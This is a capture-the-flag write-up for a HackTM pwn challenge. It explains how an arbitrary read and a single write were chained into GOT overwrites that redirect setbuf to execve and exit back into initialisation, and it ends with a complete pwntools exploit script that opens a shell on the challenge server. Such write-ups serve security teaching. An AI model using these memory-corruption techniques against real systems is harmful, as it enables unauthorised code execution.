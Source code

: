 ```yaml
---
layout: post
category: Pwn
title: HackTM - Think twice before speaking once
tags: 
    - kowu
---
```


A "kind of" blind pwning challenge, non-pic binary was provided (but not unusable out of the box because of some linker foo?).


[Download](../assets/bin/hacktm_think_speak)

```
user@KARCH ~ % nc 138.68.67.161 20004
 [*] Wise man said: 'Think twice before speaking once'
 [1] Think
 [2] Speak
 [3] Give Up
 >1
 [#] Enter Where: 4194304
[ 
ELF ]
 [1] Think
 [2] Speak
 [3] Give Up
 >3
```

The basic functionality was, that one could leak memory as often as he wants. But a 8 byte-write is allowed only once.

# Resolving Functions

Let's start with leaking everything we need. First of all we obtain a pointer into libc by leaking from our own GOT.
Then we can let pwntools DynELF do the rest of the work. Done.

```python
libcptr = struct.unpack('<Q', leakat(0x00601018))[0] - 0x69000
d = DynELF(leakat, libcptr)
d.lookup('system')
```

# Unlimited Write

In the next step I crafted some unlimited writing primite. If we look at the implementation of the leaking functionality we can see that it is implemented using a write(stdout, myaddr, 8).

```c
sym.imp.printf(" [#] Enter Where: ");
sym.imp.fflush(_reloc.stdout);
sym.imp.__isoc99_scanf("%lu", &var_10h);
sym.imp.puts("[ \n");
sym.imp.write(1, var_10h, 8);
sym.imp.puts(" ]");
```

Now, if we overwrite the reloc.write with read, a leak request at myaddr will lead to the execution of read(stdout, myaddr, 8). Even though we are reading from stdout, it is effectively the same as stdin. And by using this we now have unlimited writes.

# RIP & RDI Control

In a final step I wanted to execute system("/bin/sh"). For getting RIP control I overwrote reloc.exit with an address of my choice. So exiting gives me RIP control, but RDI is not controllable at all (it is zero because of exit(0)).

If we look at the initialization routine of the binary we can see three calls to setbuf/setvbuf. And each of them dereferences a pointer from a controllable location (reloc.stdin/out/err) and uses it to call a controllable function with.

```c
void sym.init_proc(void)
{
    sym.imp.setvbuf(_reloc.stdin, 0, 2, 0);
    sym.imp.setvbuf(_reloc.stdout, 0, 2, 0);
    sym.imp.setbuf(_reloc.stderr, 0);
    sym.imp.signal(0xe, sym.handler);
    sym.imp.alarm(0x3c);
    return;
}
```

closer look in asm:

```nasm
0x004008db      488b05be0720.  mov rax, qword [obj.stderr]
0x004008e2      be00000000     mov esi, 0
0x004008e7      4889c7         mov rdi, rax
0x004008ea      e801feffff     call sym.imp.setbuf
```

The Idea is to overwrite setbuf with system and modify reloc.stderr to be a pointer pointing to /bin/sh.
Stderr is never used inside the code, so nothing is going to crash.
The /bin/sh string is placed in some unused memory (e.g. just at the end of the reloc section).
If we have done this, we can now just call main or init_proc to get a shell. (At least I thought so, it crashed...)

# WTF

I don't know what was going on on the remote side, but to me it seemed like the env pointer was wrong? 
So when doing a system("/bin/sh") libc would try to resolve the environment variables, but it got a wrong pointer and it would crash.
Anyways, by calling execve directly this doesn't happen, because we would have to do the job of supplying argv and env pointers.
Supplying NULL is fine as well. And as lucky as we are, the second and third arguments are either NULL or some valid pointers. Shell.


```
from pwn import *

r = remote('138.68.67.161', 20004)


def leakat(addr):
    r.sendlineafter('>', '1')
    r.sendlineafter('Where:', str(addr))
    r.recvuntil('[ \n')
    return r.recvn(8)


def writeto(addr, value):
    r.sendlineafter('>', '2')
    r.sendlineafter('Where:', str(addr))
    r.sendlineafter('What: ', str(value))


def xwrite(addr, value):
    r.sendlineafter('>', '1')
    r.sendlineafter('Where:', str(addr))
    r.recvuntil('[ \n')
    r.send(struct.pack('<Q', value))


def sploit():
    libcptr = struct.unpack('<Q', leakat(0x00601018))[0] - 0x69000

    # resolve addresses. Use execve instead of system because of fucked up env ptr?
    d = DynELF(leakat, libcptr)
    addr_execve = d.lookup('execve')
    addr_read = d.lookup('read')

    # read is now write for unlimited write.
    writeto(0x00601020, addr_read)

    # place /bin/sh in unused mem, let reloc.stderr point there
    xwrite(0x00601100, struct.unpack('<Q', b'/bin/sh\0')[0])
    xwrite(0x006010a0, 0x00601100)

    # setbuf is now execve
    xwrite(0x00601028, addr_execve)

    # exit is now main
    xwrite(0x00601068, 0x00400930)

    # exit to main -> init_proc -> execve("/bin/sh", 0, ?)
    r.sendlineafter('>', '3')
    r.interactive()


if __name__ == '__main__':
    sploit()
```
